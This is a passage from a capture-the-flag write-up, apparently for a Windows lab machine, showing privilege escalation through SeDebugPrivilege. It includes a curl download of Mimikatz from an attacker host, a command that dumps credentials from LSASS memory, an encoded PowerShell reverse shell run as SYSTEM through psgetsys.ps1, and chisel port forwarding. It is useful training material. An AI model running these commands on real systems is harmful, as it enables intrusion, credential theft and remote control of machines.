

Referring to this [Hacktricks article](https://hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens.html#sedebugprivilege) about abusing tokens, I discover that we can abuse this to dump the LSASS memory space using a tool like Mimikatz.

```
PS> > curl http://10.10.14.243/mimikatz.exe -o mimi.exe

PS> > .\mimi.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```



Unfortunately, this doesn't give us any passwords or hashes for the administrator. Another way to exploit this is to use specialized tools such as the [psgetsys.ps1](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1) script or [other PoCs](https://github.com/bruno-1337/SeDebugPrivilege-Exploit) to spawn a process from a parent, allowing us to execute commands as NT AUTHORITY\SYSTEM. 

I'll use the former to grab a reverse shell by importing the script and using the ImpersonateFromParentPid to run a command with SYSTEM privileges. We also need to grab a PID from any process running as SYSTEM through the `ps` command, for example **winlogon.exe** whose is 548.

```
PS> . .\psgetsys.ps1

PS> ImpersonateFromParentPid -ppid 548 -command "c:\windows\system32\cmd.exe" -cmdargs "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMgA0ADMAIgAsADQANAA1ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA=="
```



The script gets a handle for the ppid, however upon executing the command we're met with a **"Last error: 122"** message. A bit of digging shows that this is for an insufficient buffer size, which I thought was from the command being too long. 

Another test with a curl command in place of the reverse shell also errors out with the same response.



After a while of troubleshooting, I eventually look at Ippsec's walkthrough for this box who recommends port forwarding the WinRM service to our local machine in order to grab a more proper shell.

```
--On local machine--
└─$ ./chisel server -p 8000 --reverse

--On remote machine--
PS> .\chisel.exe client 10.10.14.243:8000 R:5985:127.0.0.1:5985
```

I'm not too sure why this resolves the issue, but running the exact same command succeeds to give us a shell as SYSTEM.

```
PS> ImpersonateFromParentPid -ppid 548 -command "c:\windows\system32\cmd.exe" -cmdargs "/c powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMgA0ADMAIgAsADQANAA1ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA=="
```



Grabbing the root flag under the Administrator's desktop folder will complete this challenge. Overall I enjoyed the deserialization attack, probably because it forced me to finally setup a Windows 10 winprep box, but it was well done. I hope this was helpful to anyone following along or stuck and happy hacking!
